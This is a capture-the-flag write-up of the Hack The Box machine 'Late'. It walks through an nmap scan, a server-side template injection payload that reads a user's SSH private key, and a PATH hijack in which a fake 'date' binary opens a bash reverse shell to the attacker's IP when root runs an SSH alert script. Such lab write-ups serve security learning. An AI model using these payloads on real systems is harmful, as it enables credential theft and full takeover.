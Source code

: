 # HTB - Late

## Nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-26 20:09 CEST
Nmap scan report for 10.129.52.249
Host is up (0.085s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.98 seconds
```

## Port 80

<img src="https://github.com/UllernJ/CTF/blob/main/HTB/HTB-Late/Skjermbilde%20fra%202022-04-28%2021-59-57.png">

When we go around this page we'll find out that they have a subdomain called "images.late.htb/".
<p>To access this we need to add this to our known hosts @ /etc/hosts/.
<p>When we mess around here we discover that this a python app image reader. What we want to do now is to break it.
<p>A known payload to inject code into python apps is to use double brackets with code forexample:
  
 ```
  input: {{ 2*2 }}
  output: 4
```
  
What we would need to here to insert the payload to a image and make it readable to the reader and it would respond to that.
<p>With help of this <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection">page</a> with various payloads I managed to get user with this payload:
  
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
We extract the rsa key to ssh to the user without the password.

```

  <img src="https://github.com/UllernJ/CTF/blob/main/HTB/HTB-Late/Skjermbilde%20fra%202022-04-28%2021-58-54.png">
  
## root

  First of I want to check for vulnerabilities with <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">linpeas</a>.
  <p>I download it on my computer and make the "victim" download the linpeas from me. (because hackthebox wont let you download from github).
  <p>We can see that linpeas marks a folder named /usr/local/sbin.
  <p> Are we can find a file named ssh-alert.sh
    
```
    #!/bin/bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"
BODY="
A SSH login was detected.
        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
```
    
 So what happens here is that root will call to this program every time someone ssh into the server.
<p>So what we can do here is exploit the programs <b>date</b> and <b>uname</b>. These programs are being called from path, so what we can do is to examine our path:

```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
 
Lets say we create a file named date as a executeable here. Root would run it because of the PATH misconfiguration.
I create a file named date with a reverse shell:
```
  bash -i >& /dev/tcp/10.10.16.6/1234 0>&1
```
  
What we need to do now is just to ssh into the server agian and root will execute the ssh-alert.sh that also runs "date" (our reverseshell).
BOOM ROOT
<p><img src="/root.png">

 
  
